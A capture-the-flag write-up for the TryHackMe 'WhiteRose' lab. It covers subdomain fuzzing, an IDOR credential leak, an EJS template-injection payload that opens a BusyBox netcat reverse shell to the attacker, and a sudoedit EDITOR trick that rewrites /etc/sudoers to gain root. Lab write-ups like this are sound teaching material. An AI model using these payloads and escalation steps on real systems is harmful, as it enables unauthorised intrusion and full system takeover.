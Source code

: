 ```yaml
---
title: WhiteRose
published: 2024-12-01
description: 'This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!'
image: './WhiteRose-Images/lgo.png'
tags: ['Web',"ESJ","Sudoedit CVE", "PrivSec" ,"Server side template injection RCE"]
category: 'TryHackMe'
draft: false 
---
```


## Enumeration

- lets try scanning this web app
```sh
➜ nmap -sVC cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-21 02:53 EST
Nmap scan report for cyprusbank.thm (10.10.231.114)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.08 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
When trying to access Port 80 ( http://whiterose.thm )
We are redirected to a new URL ( http://cyprusbank.thm )

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   cyprusbank.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )
```sh
➜ ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fw 1    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
:: Progress: [5000/5000] :: Job [1/1] :: 37 req/sec :: Duration: [0:00:20] :: Errors: 1 ::
```

> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →

Can we use these credentials → ```Olivia Cortez : olivi8``` on this page ?
Let’s find out ..

## IDOR BUG

   - In the Message section we see the ending URL has a number
   - The vulnerability we can try here is called Insecure Direct Object Reference **(IDOR)**. This occurs when an application exposes a reference to an internal object (like a database record or file) directly in the URL. If there are no proper access controls or authorization checks, attackers can manipulate these references (in your case, changing the c parameter in the URL) to access resources they’re not authorized to view.

   - In this case , changing ```?c=1, ?c=2, etc.,``` might reveal different messages or records without proper permission checks, allowing unauthorized access to sensitive data. IDOR vulnerabilities are part of the broader Broken Access Control category in the OWASP Top 10.
![IDOR Picture](./WhiteRose-Images/idor.png)

Voila ! We found credentials on ?/c=8 for another User named →
```Gayle Bev```

## Exploitation

> We are able to now access the Settings page as User → Gayle Bev

  -  In the customer settings page there are two entries →
  - Enter a Customer Name & Enter a New Password

> Now keeping in mind that there are a lot of Customer names in the home page i tried entering the Individual Name and tried entering a New Password ,
> so that i can use these credentials to log into to that account ,
> Just like we did earlier , 
> but it doesn’t work that way .

> Time to use our Favourite tool **→ Burp Suite**

  -  Sending the request to Burpsuite as ```user:pass → admin:admin```
  -  User and Password can be set to anything ,
  -  Let’s get our request to Repeater in Burp Suite

![JS Picture](./WhiteRose-Images/js.png)

We found /home/web/app/views/settings.ejs
The file path ```/home/web/app/views/settings.ejs``` likely points to an EJS (Embedded JavaScript) template file used in a **Node.js** or **Express.js** web application.

   - After doing a little research i found a ```EJS SSTI vulnerability``` →
[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/?source=post_page-----972ee9129fe2--------------------------------)

> - in this PoC we are using port 1337 , but for this writeup i will be using port 1234 for the reverse shell , you can continue with the default one if you want .
> - For this case replacing the reverse shell used in ```PoC → nc -e sh IP-address PORT```by that of BusyBox from [revshells.com](https://www.revshells.com/) gave us the reverse shell successfully
```sh
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc [IP] [PORT] -e sh');s
```
![EJS Picture](./WhiteRose-Images/ejs.png)

We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.
```sh
➜  CTF-Writeups nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.0.0] 54174
python3 -c "import pty; pty.spawn(\"/bin/bash\")"
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]  + 8530 suspended  nc -lnvp 1337
➜  CTF-Writeups stty raw -echo; fg
[1]  + 8530 continued  nc -lnvp 1337
web@cyprusbank:~/app$
```
## Privilege Escalation
- We begin by listing the available sudo privileges for the current user using the ```sudo -l``` command. 
- Additionally, we check the version of sudoedit to identify any potential vulnerabilities. 
- Upon inspection, we discover that the sudo version is vulnerable to [CVE-2023-22809](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------). 
- This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the ```EDITOR variable```.
```sh
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~/app$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
> - Once in vi, press i to enter insert mode and edit the file.
> - Remove the following line from the **/etc/sudoers** file:
> -  ```web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm```
> - Replace the following line:
 ```web ALL=(root) NOPASSWD: ALL```

![Sudo Picture](./WhiteRose-Images/sudo.png)

> - Now, we can run sudo commands without needing to provide the root password. Use ```sudo su``` to switch to the root user.

```sh
sudoedit: --: editing files in a writable directory is not permitted
2 files to edit
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# ls -la
ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
lrwxrwxrwx  1 root root    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 root root  156 Apr  4  2024 clean.sh
drwx------  3 root root 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
```
**GOOD LUCK...**


